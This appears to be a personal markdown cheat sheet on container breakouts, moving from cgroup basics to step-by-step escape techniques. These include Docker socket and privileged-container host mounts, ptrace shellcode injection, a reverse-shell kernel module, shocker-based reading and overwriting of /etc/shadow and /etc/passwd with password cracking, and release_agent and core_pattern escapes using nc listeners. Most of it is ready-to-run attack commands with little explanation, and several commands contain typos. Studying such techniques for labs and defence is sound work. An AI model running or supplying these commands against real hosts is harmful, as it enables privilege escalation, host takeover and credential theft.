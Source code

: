 # Docker Registry
[Here](./registry.md)

# CGroups
Memory
```
cgcreate -g memory:test
cgset -r memory.limit_in_bytes=4194304 test
cgexec -g memeory:test ./memeeat 2M
```
Network
```
ip link add ensX type dummy
ip netns add testns
ip netns list
ip link set ensX netns <ns-name>
```

https://www.linuxjournal.com/content/everything-you-need-know-about-linux-containers-part-i-linux-control-groups-and-process

```
/sys/fs/cgroup/memory/foo

echo 50000000 | sudo tee
/sys/fs/cgroup/memory/foo/memory.limit_in_bytes
echo 2845 > /sys/fs/cgroup/memory/foo/cgroup.procs
ps -o cgroup 2845
CGROUP
8:memory:/foo,1:name=systemd:/user.slice/user-0.slice/
↪session-4.scope
cat /sys/fs/cgroup/memory/foo/memory.usage_in_bytes
253952

```

# Run Container Manually
```
#!/bin/bash
cd filesystem
cgcreate -g cpu,cpuacct,memory:testc
cgset -r cpu.shares=512 testc
cgset -r memory.limit_in_bytes=1000000000 testc
cgexec -g "cpu,cpuacct,memory:testc" unshare -fmuipn --mount-proc chroot /root/filesystem /bin/sh -c "/bin/mount -t proc proc /proc && /bin/sh"
```

# Docker socket breakout
```
# map host drive to container image
docker run -it -v /:/host anyhost:latest bash
# you can list host process after chroot
chroot /host bash
ps 
```

# shared network namespace

container run with host machine network
```docker run -d --network host test_image:latest```

use exploit of the shared containee machine to setup socks

use the socks to access localhost (which is the host machine)

access to portainer and create new container process with volume bind to host


# privileged container breakout
Print capability of the container
```capash --print```
check for cap_sys_admin, which can mount and unmount disk
see man 7 capabilities for list of capabilities
```
fdisk -l
mount /dev/sda /mnt
chroot /mnt bash
find . -iname flag
```

add user and ssh


# CAP_SYS_PTRACE
get arch with ```uname -m``` and search for bind shell code on exploit db
[ptrace.c](./ptrace.c)
```
gcc ptrace.c -o inject
./inject <pid>
nc <host_ip> 5600
```

# CAP_SYS_MODULE
```
make

nc -vnlp 4444

insmod reverse-shell.ko
```

call_usermodehelper
(​https://www.kernel.org/doc/htmldocs/kernel-api/API-call-usermodehelper.html​)
Invoking user-space applications from the kernel
(​https://developer.ibm.com/articles/l-user-space-apps/​)
Usermode Helper API (​https://insujang.github.io/2017-05-10/usermode-helper-api/​)


# CAP_DAC_READ_SEARCH
utilise open_by_handle_at() to read file handle passed by other process using name_to_handle_at()

reference: https://medium.com/@fun_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3

[shocker.c](./shocker.c)
[shocker-modified.c](./shocker-modified.c)
```
gcc -o shocker ./shocker-modified.c
./shocker /etc/shadow shadow
nc -v -n -w2 -z 172.17.0.1 1-65535
./shocker /etc/ssh/sshd_config sshd_config | grep PermitRootLogin
./shocker /etc/passwd passwd
unshadow passwd shadow >passwords
john passwords
cat /root/flag*
```

# CAP_DAC_OVERRIDE
Overwrite original file using the [shocker-write](shocker-write.c) approach
```
gcc -o shocker ./shocker-modified.c
./shocker /etc/shadow shadow
./shocker /etc/passwd passwd
```
update passwd and shadow to add a new user
```
useradd john
echo 'john:password' | chpassword
tail -1 /etc/shadow >> shadow
tail -1 /etc/passwd >> passwd
```
change the root hash of shadow file to be like john
use shocker-write to write file back to Host
```
./shocker-write /etc/shadow shadow
./shocker-write /etc/passwd passwd
```
login using john and su to roote

# release_agent escape
```
mkdir /tmp/esc
mount -t cgroup -o rdma cgroup /tmp/esc
mkdir /tmp/esc/w
echo 1 > /tmp/esc/w/notify_on_release
pop="$overlay/shell.sh"
echo $pop > /tmp/esc/release_agent
sleep 5 && echo 0>/tmp/esc/w/cgroup.procs &
nc -l -p 9001
```
# core_pattern escape
with proc mounted to /host/proc
```
cd /host/proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern
sleep 5 && ./crash &
nc -l -p 9001
```


check for bind mounted files and modify shocker.c accordingly

# Reference
https://medium.com/@fun_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3

https://i.blackhat.com/USA-19/Thursday/us-19-Edwards-Compendium-Of-Container-Escapes-up.pdf

CVE-2019-5736 (runC): rexec callers as memfd
https://github.com/lxc/lxc/commit/6400238d08cdf1ca20d49bafb85f4e224348bf9d
https://blog.dragonsector.pl/2019/02/cve-2019-5736-escape-from-docker-and.html
https://archives.flockport.com/lxc-vs-docker/
https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/
